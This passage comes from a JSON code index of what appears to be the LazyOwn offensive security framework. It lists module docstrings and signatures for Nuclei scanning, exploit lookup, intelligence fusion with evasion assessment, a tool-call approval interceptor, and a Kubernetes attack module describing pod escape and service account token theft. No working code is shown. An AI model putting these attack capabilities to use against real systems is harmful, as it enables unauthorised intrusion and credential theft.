List[NucleiTemplate], not on selectors - Dependency Inversion  : NucleiBridge depends on TemplateSelector and NucleiRunner abstractions  Usage ----- from modules.integrations.nuclei_bridge import get_bridge  bridge = get_bridge() output = bridge.scan(\"10.10.11.78\", findings)  # List matching templates without running: templates = bridge.list_templates(services=[\"apache\"], cves=[\"CVE-2021-41773\"])  # CLI: python3 modules/integrations/nuclei_bridge.py --target 10.10.11.78 --cve CVE-2021-41773 python3 modules/integrations/nuclei_bridge.py --target 10.10.11.78 --service apache --dry-run", "id": "modules/integrations/nuclei_bridge.py", "kind": "module", "label": "nuclei_bridge.py", "language": "py", "sha256": "5350449a93d43dd9", "symbol_count": 29, "symbols": [{"doc": "Metadata extracted from a Nuclei template YAML file.", "kind": "class", "line": 71, "name": "NucleiTemplate", "signature": "class NucleiTemplate"}, {"doc": "Interface for selecting Nuclei templates given service/CVE context.", "kind": "class", "line": 87, "name": "TemplateSelector", "signature": "class TemplateSelector(ABC)"}, {"doc": "Scans the local nuclei-templates directory and builds an in-memory index.\n\nTemplate metadata is parsed from YAML files under\n``external/.exploit/nuclei-templates/``.  Falls back gracefully when the\ndirectory does not exist or when PyYAML is not installed (uses regex\nparsing instead).", "kind": "class", "line": 104, "name": "LocalTemplateIndex", "signature": "class LocalTemplateIndex(TemplateSelector)"}, {"doc": "Builds and executes nuclei commands via subprocess.\n\nFalls back gracefully if nuclei is not installed.", "kind": "class", "line": 279, "name": "NucleiRunner", "signature": "class NucleiRunner"}, {"doc": "Top-level facade combining TemplateSelector and NucleiRunner.\n\nInjected dependencies allow easy testing without real nuclei.", "kind": "class", "line": 389, "name": "NucleiBridge", "signature": "class NucleiBridge"}, {"doc": "Return the module-level NucleiBridge singleton.", "kind": "function", "line": 443, "name": "get_bridge", "signature": "def get_bridge()"}, {"kind": "function", "line": 456, "name": "_main", "signature": "def _main()"}, {"doc": "Return templates relevant to the provided *services* and *cves*.\n\nResults are sorted: critical > high > medium > low.", "kind": "method", "line": 91, "name": "select", "signature": "def select(self, services, cves)"}, {"kind": "method", "line": 114, "name": "__init__", "signature": "def __init__(self, templates_dir)"}, {"kind": "method", "line": 121, "name": "select", "signature": "def select(self, services, cves)"}, {"doc": "Force a (re)build of the template index.", "kind": "method", "line": 141, "name": "build", "signature": "def build(self)"}, {"kind": "method", "line": 158, "name": "_ensure_built", "signature": "def _ensure_built(self)"}, {"kind": "method", "line": 162, "name": "_parse_template", "signature": "def _parse_template(self, path)"}, {"kind": "method", "line": 172, "name": "_parse_yaml", "signature": "def _parse_yaml(self, text, path)"}, {"kind": "method", "line": 201, "name": "_parse_regex", "signature": "def _parse_regex(self, text, path)"}, {"kind": "method", "line": 238, "name": "_normalise_tags", "signature": "def _normalise_tags(raw)"}, {"kind": "method", "line": 246, "name": "_extract_cve_from_tags", "signature": "def _extract_cve_from_tags(tags)"}, {"kind": "method", "line": 253, "name": "_extract_cve_from_text", "signature": "def _extract_cve_from_text(text)"}, {"kind": "method", "line": 258, "name": "_matches", "signature": "def _matches(tmpl, service_lower, cve_upper)"}, {"kind": "method", "line": 288, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Execute nuclei against *target* using the provided *templates*.\n\nReturns the combined stdout/stderr output, or an error string if\nnuclei is not installed or execution fails.", "kind": "method", "line": 293, "name": "run", "signature": "def run(self, target, templates, output_dir)"}, {"doc": "Convenience: extract services/CVEs from *findings*, select templates, run.", "kind": "method", "line": 326, "name": "run_for_findings", "signature": "def run_for_findings(self, target, findings, output_dir, selector)"}, {"kind": "method", "line": 343, "name": "_build_command", "signature": "def _build_command(self, target, templates, output_dir)"}, {"kind": "method", "line": 370, "name": "_extract_context", "signature": "def _extract_context(findings)"}, {"kind": "method", "line": 396, "name": "__init__", "signature": "def __init__(self, selector, runner)"}, {"doc": "Select templates from *findings* and run nuclei against *target*.\n\nWhen *dry_run* is True, return the command string without executing.", "kind": "method", "line": 404, "name": "scan", "signature": "def scan(self, target, findings, dry_run)"}, {"doc": "Return matching templates without running nuclei.", "kind": "method", "line": 427, "name": "list_templates", "signature": "def list_templates(self, services, cves)"}, {"kind": "class", "line": 483, "name": "_F", "signature": "class _F"}, {"kind": "method", "line": 484, "name": "__init__", "signature": "def __init__(self, ftype, value)"}]}, {"doc": "Nuclei JSON output parser — feeds scan results into DB, WorldModel, and recommender.  Parses nuclei ``-json`` / ``-jsonl`` output and enriches the LazyOwn campaign database (``modules/db.py``) and WorldModel (``modules/world_model.py``) with discovered vulnerabilities.  Design (SOLID): - Single Responsibility: NucleiParser only parses nuclei output. - Open/Closed: new finding types via Finding subclass. - Liskov: any DB interface can replace LazyOwnDB. - Interface Segregation: parse(), import_findings(), enrich_world_model(). - Dependency Inversion: depends on abstract DB interface, not concrete SQLite.  Usage: from modules.integrations.nuclei_parser import NucleiParser  parser = NucleiParser() findings = parser.parse_file(\"sessions/nuclei_10.10.11.5.json\") imported = parser.import_to_db(findings, rhost=\"10.10.11.5\") parser.enrich_world_model(findings, rhost=\"10.10.11.5\")", "id": "modules/integrations/nuclei_parser.py", "kind": "module", "label": "nuclei_parser.py", "language": "py", "sha256": "589dc3389d01a5fa", "symbol_count": 17, "symbols": [{"kind": "class", "line": 71, "name": "NucleiFinding", "signature": "class NucleiFinding"}, {"doc": "Parses nuclei JSON/JSONL output and imports into LazyOwn.\n\nSupports both single-line JSON objects per finding (``-jsonl``)\nand arrays of JSON objects (``-json``).\n\nAttributes:\n    sessions_dir: Base sessions directory for output files.", "kind": "class", "line": 99, "name": "NucleiParser", "signature": "class NucleiParser"}, {"kind": "method", "line": 87, "name": "mitre_tactic", "signature": "def mitre_tactic(self)"}, {"kind": "method", "line": 95, "name": "exploit_probability", "signature": "def exploit_probability(self)"}, {"kind": "method", "line": 109, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Parse raw nuclei text output (table format).\n\nArgs:\n    text: Raw text from nuclei stdout.\n\nReturns:\n    List of parsed NucleiFinding objects.", "kind": "method", "line": 115, "name": "parse_text", "signature": "def parse_text(self, text)"}, {"doc": "Parse nuclei JSON output (``-jsonl`` or ``-json`` format).\n\nSupports both newline-delimited JSON (JSONL) and JSON arrays.\n\nArgs:\n    json_text: JSON or JSONL formatted nuclei output.\n\nReturns:\n    List of parsed NucleiFinding objects.", "kind": "method", "line": 134, "name": "parse_json", "signature": "def parse_json(self, json_text)"}, {"doc": "Parse nuclei output from a file (auto-detects format).\n\nArgs:\n    filepath: Path to nuclei output file.\n\nReturns:\n    List of parsed NucleiFinding objects.", "kind": "method", "line": 177, "name": "parse_file", "signature": "def parse_file(self, filepath)"}, {"doc": "Import parsed findings into the LazyOwnDB vulnerabilities table.\n\nArgs:\n    findings: Parsed NucleiFinding list.\n    rhost: Target IP for host association.\n    workspace_name: DB workspace to use.\n\nReturns:\n    Number of vulnerabilities imported.", "kind": "method", "line": 196, "name": "import_to_db", "signature": "def import_to_db(self, findings, rhost, workspace_name)"}, {"doc": "Feed parsed findings into the WorldModel for autonomous decision-making.\n\nArgs:\n    findings: Parsed NucleiFinding list.\n    rhost: Target IP.\n\nReturns:\n    Number of findings added to the world model.", "kind": "method", "line": 262, "name": "enrich_world_model", "signature": "def enrich_world_model(self, findings, rhost)"}, {"doc": "Generate actionable LazyOwn command recommendations from findings.\n\nArgs:\n    findings: Parsed NucleiFinding list.\n    rhost: Target IP for command placeholders.\n\nReturns:\n    List of recommendation dicts with command, confidence, and reason.", "kind": "method", "line": 300, "name": "generate_recommendations", "signature": "def generate_recommendations(self, findings, rhost)"}, {"doc": "Run nuclei scan against target, parse output, and import to DB/WorldModel.\n\nThis is the high-level entry point: run + parse + import + recommend\nin a single call.\n\nArgs:\n    target: Host to scan.\n    templates: Specific nuclei templates to run (auto-selects if None).\n    services: Service names to match templates against.\n    cves: CVE IDs to match templates against.\n    workspace_name: DB workspace.\n\nReturns:\n    Dict with keys: findings (list), imported (int), recommendations (list).", "kind": "method", "line": 328, "name": "scan_and_import", "signature": "def scan_and_import(self, target, templates, services, cves, workspace_name)"}, {"kind": "method", "line": 393, "name": "_parse_line", "signature": "def _parse_line(self, line)"}, {"kind": "method", "line": 412, "name": "_parse_json_obj", "signature": "def _parse_json_obj(self, obj)"}, {"kind": "method", "line": 468, "name": "_recommend_for_finding", "signature": "def _recommend_for_finding(self, finding, rhost)"}, {"kind": "method", "line": 504, "name": "_finding_to_dict", "signature": "def _finding_to_dict(finding)"}, {"kind": "method", "line": 517, "name": "_summarize", "signature": "def _summarize(findings)"}]}, {"doc": "modules/integrations/searchsploit.py ====================================== Bridges searchsploit CLI and ExploitDB with LazyOwn CVE/finding data.  Design (SOLID) -------------- - Single Responsibility : each class owns one source or one operation - Open/Closed           : new exploit sources via ExploitSource subclass - Liskov                : SearchsploitCLI and ExploitDBAPI honour the same contract - Interface Segregation : consumers import ExploitSource, not concrete types - Dependency Inversion  : SearchsploitClient depends on ExploitSource abstraction  Usage ----- from modules.integrations.searchsploit import get_client, search_cve  entries = search_cve(\"CVE-2021-41773\") for e in entries: print(e.id, e.title)  # CLI: python3 modules/integrations/searchsploit.py --cve CVE-2021-41773 python3 modules/integrations/searchsploit.py --service apache --version 2.4.49", "id": "modules/integrations/searchsploit.py", "kind": "module", "label": "searchsploit.py", "language": "py", "sha256": "657641c2401398b4", "symbol_count": 27, "symbols": [{"doc": "Represents a single exploit found in ExploitDB or searchsploit.", "kind": "class", "line": 60, "name": "ExploitEntry", "signature": "class ExploitEntry"}, {"doc": "Interface for any exploit lookup back-end.", "kind": "class", "line": 76, "name": "ExploitSource", "signature": "class ExploitSource(ABC)"}, {"doc": "Runs ``searchsploit --json <query>`` and parses the result.\n\nFalls back gracefully to an empty list if searchsploit is not installed.\nHandles both the legacy (RESULTS_EXPLOIT / RESULTS_SHELLCODE) and\nnew (data) top-level key formats.", "kind": "class", "line": 93, "name": "SearchsploitCLI", "signature": "class SearchsploitCLI(ExploitSource)"}, {"doc": "Queries the ExploitDB search endpoint directly.\n\nDisabled gracefully when *requests* is not available.\nEnforces a 2-second rate limit between calls.", "kind": "class", "line": 193, "name": "ExploitDBAPI", "signature": "class ExploitDBAPI(ExploitSource)"}, {"doc": "Facade that tries SearchsploitCLI first, falls back to ExploitDBAPI.\n\nProvides high-level helpers consumed by the rest of LazyOwn.", "kind": "class", "line": 271, "name": "SearchsploitClient", "signature": "class SearchsploitClient"}, {"doc": "Return the module-level SearchsploitClient singleton.", "kind": "function", "line": 333, "name": "get_client", "signature": "def get_client()"}, {"doc": "Module-level convenience: search by CVE id.", "kind": "function", "line": 341, "name": "search_cve", "signature": "def search_cve(cve_id)"}, {"doc": "Module-level convenience: search by service name and version.", "kind": "function", "line": 346, "name": "search_service", "signature": "def search_service(name, version)"}, {"kind": "function", "line": 356, "name": "_main", "signature": "def _main()"}, {"doc": "Return exploits matching *cve_id* (e.g. 'CVE-2021-41773').", "kind": "method", "line": 80, "name": "search_cve", "signature": "def search_cve(self, cve_id)"}, {"doc": "Return exploits matching the service *name* and optional *version*.", "kind": "method", "line": 84, "name": "search_service", "signature": "def search_service(self, name, version)"}, {"kind": "method", "line": 102, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 109, "name": "search_cve", "signature": "def search_cve(self, cve_id)"}, {"kind": "method", "line": 112, "name": "search_service", "signature": "def search_service(self, name, version)"}, {"kind": "method", "line": 118, "name": "_run", "signature": "def _run(self, query)"}, {"kind": "method", "line": 133, "name": "_parse", "signature": "def _parse(self, raw)"}, {"kind": "method", "line": 162, "name": "_row_to_entry", "signature": "def _row_to_entry(self, row)"}, {"kind": "method", "line": 183, "name": "_extract_cve", "signature": "def _extract_cve(text)"}, {"kind": "method", "line": 201, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 207, "name": "search_cve", "signature": "def search_cve(self, cve_id)"}, {"kind": "method", "line": 210, "name": "search_service", "signature": "def search_service(self, name, version)"}, {"kind": "method", "line": 218, "name": "_query", "signature": "def _query(self, cve_id)"}, {"kind": "method", "line": 258, "name": "_rate_limit", "signature": "def _rate_limit()"}, {"kind": "method", "line": 278, "name": "__init__", "signature": "def __init__(self, primary, fallback)"}, {"doc": "Return exploits for *cve_id*, trying CLI then API.", "kind": "method", "line": 286, "name": "search_cve", "signature": "def search_cve(self, cve_id)"}, {"doc": "Return exploits for *name*/*version*, trying CLI then API.", "kind": "method", "line": 293, "name": "search_service", "signature": "def search_service(self, name, version)"}, {"doc": "Takes an ObsParser Finding list, extracts CVEs and service_versions,\nreturns ``{cve_or_service: [ExploitEntry, ...]}``.", "kind": "method", "line": 300, "name": "enrich_findings", "signature": "def enrich_findings(self, findings)"}]}, {"doc": "Sessions attack-intel fusion: data -> information -> intelligence.  Reads every campaign artefact under ``sessions/`` (world model, lazy loop graphs, objectives, scans, event logs) and fuses them into ONE heterogeneous graph centred on the LazyOwn C2: hosts, ports/services, findings, loop tasks and objectives. Every node carries a deterministic id (``sha1(kind:value)``) and every edge an ``evidence`` string naming the source artefact, so each relation is traceable like a provenance-tracked research graph.  Payload shape mirrors ReadMenator ``ForceGraphRenderer.build_payload`` so ``templates/intel.html`` (a clone of ReadMenator ``_forcegraph_page``) can reuse the exact same engine, physics sizes, glyphs, colors, legend and inspector: file nodes carry ``family``/``layer``/``language``/``rank``/ ``doc``/``symbol_list``; community and layer hub nodes plus ``member_of`` / ``layered_as`` structural edges are appended automatically.", "id": "modules/intel_fusion.py", "kind": "module", "label": "intel_fusion.py", "language": "py", "sha256": "35ab9bc908423baa", "symbol_count": 23, "symbols": [{"doc": "Stable dusty HSL color from a community name (djb2, full hue wheel).", "kind": "function", "line": 95, "name": "_family_color", "signature": "def _family_color(name)"}, {"doc": "Deterministic node id from kind + normalized value.", "kind": "function", "line": 106, "name": "node_id", "signature": "def node_id(kind, value)"}, {"doc": "Load JSON or return default on any failure.", "kind": "function", "line": 112, "name": "_load_json", "signature": "def _load_json(path, default)"}, {"doc": "Read tail JSONL rows, skipping malformed lines.", "kind": "function", "line": 122, "name": "_read_lines", "signature": "def _read_lines(path, limit)"}, {"doc": "Extract IPv4 literals from a blob of log text.", "kind": "function", "line": 139, "name": "_host_mentions", "signature": "def _host_mentions(text)"}, {"doc": "PageRank over node ids (same contract as ReadMenator rank).", "kind": "function", "line": 146, "name": "_file_pagerank", "signature": "def _file_pagerank(ids, pairs, alpha, max_iter, tol)"}, {"doc": "Fuse all session artefacts into one C2-centred intel graph.", "kind": "function", "line": 176, "name": "build_intel_graph", "signature": "def build_intel_graph(sessions_dir, est_cap)"}, {"doc": "Bounded purpose string for the inspector (ReadMenator contract).", "kind": "function", "line": 390, "name": "_node_doc", "signature": "def _node_doc(node)"}, {"doc": "Compact symbol records for the inspector (max 40).", "kind": "function", "line": 413, "name": "_symbol_list", "signature": "def _symbol_list(node)"}, {"doc": "Add ReadMenator explorer fields in place (type/file/layer/rank/doc).", "kind": "function", "line": 428, "name": "_enrich_readmenator_fields", "signature": "def _enrich_readmenator_fields(nodes, edges)"}, {"doc": "Stable colors for layer/language groupings (ReadMenator contract).", "kind": "function", "line": 512, "name": "group_colors", "signature": "def group_colors(graph)"}, {"doc": "Explorer page settings with ReadMenator physics sizes (exact values).", "kind": "function", "line": 528, "name": "page_settings", "signature": "def page_settings(graph)"}, {"doc": "Side-panel analytics (attribution funnel + intel summary).", "kind": "function", "line": 585, "name": "build_analytics", "signature": "def build_analytics(graph, summary)"}, {"doc": "Nearly uniform unit vectors on a golden-angle spiral, north to south.", "kind": "function", "line": 610, "name": "_fibonacci_sphere", "signature": "def _fibonacci_sphere(count)"}, {"doc": "Bisect lattice points between runs of groups of matching size.", "kind": "function", "line": 626, "name": "_split_caps", "signature": "def _split_caps(labels, sizes, points, lattice, out)"}, {"doc": "Normalize a 3D vector (zero vectors map to the south pole).", "kind": "function", "line": 651, "name": "_unit", "signature": "def _unit(vec)"}, {"doc": "Derive the circular/spherical bundle payload from a fused graph.\n\nCommunities keep size order (largest first); ``misc`` nodes form a\ntrailing unassigned group. Inside a group files are ordered by rank,\nso hubs sit at the center of their arc and cap. Edges are distinct\ndirected file index pairs.", "kind": "function", "line": 659, "name": "build_bundle_payload", "signature": "def build_bundle_payload(graph)"}, {"doc": "Bundle page settings with ReadMenator sizes (exact values).", "kind": "function", "line": 769, "name": "bundle_settings", "signature": "def bundle_settings(graph)"}, {"doc": "Attach x/y/z for radial/spherical modes; force modes stay free.\n\nAccepts ReadMenator layout names (``force``, ``cluster``, ``radial``,\n``dag``) plus legacy intel names (``force2d``, ``force3d``,\n``circular``, ``spherical``). Force-family modes return without preset\npositions so the client physics (charge -300, distance 120, 400 ticks\n+ fit-to-view) places every graph on screen.", "kind": "function", "line": 800, "name": "assign_layout", "signature": "def assign_layout(graph, mode)"}, {"doc": "Score host exposure and suggest intents for the autonomous planner.", "kind": "function", "line": 865, "name": "write_summary", "signature": "def write_summary(graph, sessions_dir)"}, {"doc": "Insert node or merge extra fields into the existing one.", "kind": "function", "line": 183, "name": "add_node", "signature": "def add_node(kind, value, label)"}, {"doc": "Append one provenance-tagged relation.", "kind": "function", "line": 197, "name": "add_edge", "signature": "def add_edge(src, dst, kind, evidence, weight)"}, {"doc": "Record a corroborating artefact on a node, deduped.", "kind": "function", "line": 205, "name": "tag_source", "signature": "def tag_source(nid, source)"}]}, {"doc": "IntelligenceEngine — unified collection→analysis→intelligence pipeline.  Transforms raw data from nmap, tool output, EStorides, Nuclei, YARA, and the FactStore into graded intelligence that feeds the WorldModel and produces actionable recommendations. Closes the gap between data collection and operational decision-making.  Architecture ============ Collection        →   Analysis          →   Intelligence (nmap, obs,       →   (correlate,       →   (grade, map to estorides,          rank, link)            MITRE, recommend) nuclei, yara, freedom, facts)  CounterIntelligence                   Dissemination (exposure, detection, evasion)   →    (world model, killchain, MISP)  Design ====== - Single Responsibility : one file, one contract, one engine - Config class owns all thresholds and paths — zero magic numbers - Collection adapters are injected, not hardcoded - WorldModel is written to directly via get_world_model() - Thread-safe via the WorldModel's RLock  Usage ===== from modules.intelligence_engine import IntelligenceEngine", "id": "modules/intelligence_engine.py", "kind": "module", "label": "intelligence_engine.py", "language": "py", "sha256": "bec79083c14f9ef3", "symbol_count": 27, "symbols": [{"doc": "Centralized configuration for the intelligence pipeline.", "kind": "class", "line": 57, "name": "IntelligenceConfig", "signature": "class IntelligenceConfig"}, {"doc": "A single piece of raw data collected from any source.", "kind": "class", "line": 78, "name": "CollectedFact", "signature": "class CollectedFact"}, {"doc": "Graded intelligence produced from correlated facts.", "kind": "class", "line": 93, "name": "IntelligenceAssessment", "signature": "class IntelligenceAssessment"}, {"doc": "What we exposed, what detected us, how to evade.", "kind": "class", "line": 108, "name": "CounterIntelFinding", "signature": "class CounterIntelFinding"}, {"doc": "Unified intelligence pipeline for the LazyOwn framework.\n\nCollects raw data from all available sources, analyzes correlations,\nproduces graded intelligence with MITRE mappings, assesses counter-\nintelligence exposure, and disseminates structured results to the\nWorldModel and killchain.\n\nPublic API:\n    collect_from_scan(target)      — parse nmap XML into facts\n    collect_from_tool(output, ...) — parse tool output via ObsParser\n    collect_from_estorides(target) — run estorides OSINT aggregator\n    collect_from_nuclei(target)    — run nuclei vulnerability scan\n    collect_from_yara(path)        — scan with YARA rules\n    collect_from_factstore()       — ingest policy_facts.json\n    analyze()                      — correlate and rank findings\n    produce_intelligence()         — grade and map to MITRE\n    produce_counter_intelligence() — assess exposure\n    disseminate()                  — update WorldModel + killchain\n    run_full_cycle(target)         — collect → analyze → intel → disseminate\n    get_intel_report()             — structured JSON report", "kind": "class", "line": 119, "name": "IntelligenceEngine", "signature": "class IntelligenceEngine"}, {"doc": "Return the module-level singleton IntelligenceEngine.", "kind": "function", "line": 931, "name": "get_intelligence_engine", "signature": "def get_intelligence_engine(config)"}, {"kind": "method", "line": 142, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Parse nmap XML into structured facts.\n\nArgs:\n    target: Target IP or hostname.\n\nReturns:\n    List of collected facts.", "kind": "method", "line": 153, "name": "collect_from_scan", "signature": "def collect_from_scan(self, target)"}, {"doc": "Parse tool output into structured facts using ObsParser.\n\nArgs:\n    output: Raw tool output text.\n    tool: Tool name that produced the output.\n    host: Target host.\n\nReturns:\n    List of collected facts.", "kind": "method", "line": 255, "name": "collect_from_tool", "signature": "def collect_from_tool(self, output, tool, host)"}, {"doc": "Run estorides OSINT aggregator and collect findings.\n\nArgs:\n    target: Domain or IP to investigate.\n\nReturns:\n    List of collected OSINT facts.", "kind": "method", "line": 292, "name": "collect_from_estorides", "signature": "def collect_from_estorides(self, target)"}, {"doc": "Run nuclei vulnerability scanner and collect findings.\n\nArgs:\n    target: Target URL or host.\n\nReturns:\n    List of collected vulnerability facts.", "kind": "method", "line": 334, "name": "collect_from_nuclei", "signature": "def collect_from_nuclei(self, target)"}, {"doc": "Scan with YARA rules and collect IOC matches.\n\nArgs:\n    target_path: File or directory to scan.\n\nReturns:\n    List of collected IOC facts.", "kind": "method", "line": 376, "name": "collect_from_yara", "signature": "def collect_from_yara(self, target_path)"}, {"doc": "Ingest structured facts from FactStore policy_facts.json.\n\nReturns:\n    List of collected facts.", "kind": "method", "line": 415, "name": "collect_from_factstore", "signature": "def collect_from_factstore(self)"}, {"doc": "Correlate collected facts into structured intelligence.\n\nLinks services to known vulnerabilities, credentials to hosts,\ndomains to infrastructure, and ranks targets by value.\n\nReturns:\n    List of intelligence assessments.", "kind": "method", "line": 477, "name": "analyze", "signature": "def analyze(self)"}, {"kind": "method", "line": 494, "name": "_correlate_services_to_vulns", "signature": "def _correlate_services_to_vulns(self)"}, {"kind": "method", "line": 537, "name": "_match_known_vulns", "signature": "def _match_known_vulns(fact)"}, {"kind": "method", "line": 565, "name": "_correlate_creds_to_hosts", "signature": "def _correlate_creds_to_hosts(self)"}, {"kind": "method", "line": 588, "name": "_correlate_domains_to_infrastructure", "signature": "def _correlate_domains_to_infrastructure(self)"}, {"kind": "method", "line": 604, "name": "_rank_targets", "signature": "def _rank_targets(self)"}, {"kind": "method", "line": 644, "name": "_detect_killchain_gaps", "signature": "def _detect_killchain_gaps(self)"}, {"doc": "Grade and enrich intelligence assessments with MITRE mappings.\n\nReturns:\n    Graded intelligence assessments.", "kind": "method", "line": 685, "name": "produce_intelligence", "signature": "def produce_intelligence(self)"}, {"kind": "method", "line": 700, "name": "_map_category_to_mitre", "signature": "def _map_category_to_mitre(category)"}, {"doc": "Assess what we exposed and what can detect us.\n\nReturns:\n    Counter-intelligence findings.", "kind": "method", "line": 715, "name": "produce_counter_intelligence", "signature": "def produce_counter_intelligence(self)"}, {"doc": "Write intelligence to WorldModel, killchain, and report file.\n\nReturns:\n    Dissemination summary.", "kind": "method", "line": 765, "name": "disseminate", "signature": "def disseminate(self)"}, {"doc": "Execute the complete intelligence cycle for a target.\n\nCollects from all available sources, analyzes correlations, produces\ngraded intelligence, assesses counter-intelligence exposure, and\ndisseminates structured results to the WorldModel.\n\nArgs:\n    target: Target IP or hostname.\n\nReturns:\n    Full cycle summary with counts and warnings.", "kind": "method", "line": 845, "name": "run_full_cycle", "signature": "def run_full_cycle(self, target)"}, {"doc": "Produce a structured JSON intelligence report.\n\nReturns:\n    Dict with facts, assessments, counter-intel, and warnings.", "kind": "method", "line": 874, "name": "get_intel_report", "signature": "def get_intel_report(self)"}, {"kind": "method", "line": 925, "name": "_is_placeholder", "signature": "def _is_placeholder(value)"}]}, {"doc": "User-configurable tool-call interception layer with human-in-loop approvals.  Ports the LAZY ``guard`` + ``intercept`` contracts to LazyOwn idioms: every autonomous tool call passes through :meth:`Interceptor.evaluate` before execution. Three actions are supported: allow, deny, ask. Ask creates a pending record that an operator approves or denies, optionally with a timeout that resolves to a safe default.", "id": "modules/intercept.py", "kind": "module", "label": "intercept.py", "language": "py", "sha256": "bcb410597e39b7bc", "symbol_count": 27, "symbols": [{"doc": "Possible outcomes of rule evaluation.", "kind": "class", "line": 21, "name": "InterceptAction", "signature": "class InterceptAction(str, Enum)"}, {"doc": "Centralized constants for interception behavior.", "kind": "class", "line": 33, "name": "InterceptConfig", "signature": "class InterceptConfig"}, {"doc": "Single user-configurable interception rule.", "kind": "class", "line": 50, "name": "InterceptRule", "signature": "class InterceptRule"}, {"doc": "Pending human-in-loop approval request.", "kind": "class", "line": 77, "name": "PendingApproval", "signature": "class PendingApproval"}, {"doc": "Result of evaluating a tool call.", "kind": "class", "line": 92, "name": "InterceptVerdict", "signature": "class InterceptVerdict"}, {"doc": "Return the default destructive and exfiltration guard rules.", "kind": "function", "line": 101, "name": "builtin_rules", "signature": "def builtin_rules()"}, {"doc": "Return the matching global scope suffix or empty (LAZY parity).", "kind": "function", "line": 131, "name": "scope_blocked", "signature": "def scope_blocked(target)"}, {"doc": "Classify post-execution output (LAZY Guard.postToolUse parity).", "kind": "function", "line": 144, "name": "observe_post_tool", "signature": "def observe_post_tool(output)"}, {"doc": "Evaluate tool calls against prioritized user rules.", "kind": "class", "line": 154, "name": "Interceptor", "signature": "class Interceptor"}, {"doc": "Audit every gated tool call and attribute failures.", "kind": "class", "line": 255, "name": "Guard", "signature": "class Guard"}, {"doc": "Validate action and pre-compile regex patterns.", "kind": "method", "line": 61, "name": "__post_init__", "signature": "def __post_init__(self)"}, {"doc": "Return True when this rule matches the tool call surface.", "kind": "method", "line": 68, "name": "matches", "signature": "def matches(self, tool, command)"}, {"doc": "Initialize with rules sorted by descending priority.", "kind": "method", "line": 157, "name": "__init__", "signature": "def __init__(self, rules, ask_timeout_sec, timeout_action)"}, {"doc": "Return a copy of the active rule list.", "kind": "method", "line": 172, "name": "rules", "signature": "def rules(self)"}, {"doc": "Add a rule and keep priority ordering.", "kind": "method", "line": 177, "name": "add_rule", "signature": "def add_rule(self, rule)"}, {"doc": "Remove the first rule matching pattern text.", "kind": "method", "line": 183, "name": "remove_rule", "signature": "def remove_rule(self, pattern)"}, {"doc": "Evaluate a tool call and return the verdict.", "kind": "method", "line": 192, "name": "evaluate", "signature": "def evaluate(self, tool, command)"}, {"doc": "Resolve a pending approval with approve or deny.", "kind": "method", "line": 220, "name": "decide", "signature": "def decide(self, approval_id, decision)"}, {"doc": "List unresolved approvals, expiring timed-out ones per policy.", "kind": "method", "line": 234, "name": "pending_approvals", "signature": "def pending_approvals(self)"}, {"doc": "Fetch a single approval record by id.", "kind": "method", "line": 249, "name": "approval_status", "signature": "def approval_status(self, approval_id)"}, {"doc": "Initialize audit log with an optional interceptor.", "kind": "method", "line": 258, "name": "__init__", "signature": "def __init__(self, interceptor)"}, {"doc": "Expose the underlying interceptor.", "kind": "method", "line": 266, "name": "interceptor", "signature": "def interceptor(self)"}, {"doc": "Audit the call then evaluate intercept rules (trace id kept).", "kind": "method", "line": 270, "name": "check", "signature": "def check(self, tool, command)"}, {"doc": "Classify output and attribute blocked/error counters.", "kind": "method", "line": 282, "name": "observe", "signature": "def observe(self, output, source)"}, {"doc": "Attribute a post-execution failure to a source.", "kind": "method", "line": 291, "name": "record_failure", "signature": "def record_failure(self, source)"}, {"doc": "Return the most recent audit entries.", "kind": "method", "line": 296, "name": "audit_log", "signature": "def audit_log(self, limit)"}, {"doc": "Return failure attribution counters.", "kind": "method", "line": 301, "name": "attribution", "signature": "def attribution(self)"}]}, {"id": "modules/internal_discover.sh", "kind": "module", "label": "internal_discover.sh", "language": "sh", "sha256": "c43f7bc866feab91", "symbol_count": 0, "symbols": []}, {"doc": "------------------------------------------------------------------------------- iptables-port-forward.sh  This script configures port forwarding using iptables. It can either set up the rules to redirect traffic or clean them up.  Usage: To set up: ./iptables-port-forward.sh -t <DESTINATION_IP> -p <PORT> To clean:  ./iptables-port-forward.sh -t <DESTINATION_IP> -c  Options: -t <DESTINATION_IP>  : The IP address where traffic will be redirected. -p <PORT>            : The destination port. Default is 80. -c                   : Clean up all rules added by this script. -------------------------------------------------------------------------------", "id": "modules/iptables_portforward.sh", "kind": "module", "label": "iptables_portforward.sh", "language": "sh", "sha256": "f2faf23eeaf37196", "symbol_count": 1, "symbols": [{"doc": "------------------------------------------------------------------------------ Function: display_usage  Displays the correct usage of the script and exits. -------------------------------------------------------------------------------", "kind": "function", "line": 29, "name": "display_usage"}]}, {"doc": "Incremental JSONL reader shared by the monitor TUI and the loop runner.  The activity log only ever appends, so a byte offset is a stable cursor: each reader keeps its own offset and returns only complete records, tolerating a partially written final line.", "id": "modules/jsonl_tail.py", "kind": "module", "label": "jsonl_tail.py", "language": "py", "sha256": "db107ea827747123", "symbol_count": 3, "symbols": [{"doc": "Incremental JSONL reader that tolerates partially-written lines.", "kind": "class", "line": 14, "name": "JsonlTail", "signature": "class JsonlTail"}, {"doc": "Bind the tail to one file path.", "kind": "method", "line": 17, "name": "__init__", "signature": "def __init__(self, path)"}, {"doc": "Return new complete records since the last call.", "kind": "method", "line": 22, "name": "read_new", "signature": "def read_new(self, limit)"}]}, {"id": "modules/jwtexploit.py", "kind": "module", "label": "jwtexploit.py", "language": "py", "sha256": "4a16948968c3d059", "symbol_count": 0, "symbols": []}, {"doc": "Kubernetes attack module — RBAC enumeration, pod escape, etcd access, Helm abuse.  Provides attack primitives for Kubernetes clusters: RBAC privilege enumeration, pod escape techniques (privileged containers, hostPath, hostNetwork, hostPID), etcd database access, Helm Tiller exploitation, kubelet anonymous auth abuse, service account token theft across namespaces, and admission controller bypass.  All techniques are organized by threat matrix category with detection notes for blue team awareness.", "id": "modules/k8s_attacks.py", "kind": "module", "label": "k8s_attacks.py", "language": "py", "sha256": "c4a66a73f5c64326", "symbol_count": 11, "symbols": [{"doc": "Configuration for Kubernetes attack operations.\n\nAttributes:\n    cluster_url: Kubernetes API server URL.\n    kubeconfig_path: Path to kubeconfig file.\n    namespace: Target namespace.\n    pod_name: Target pod name.\n    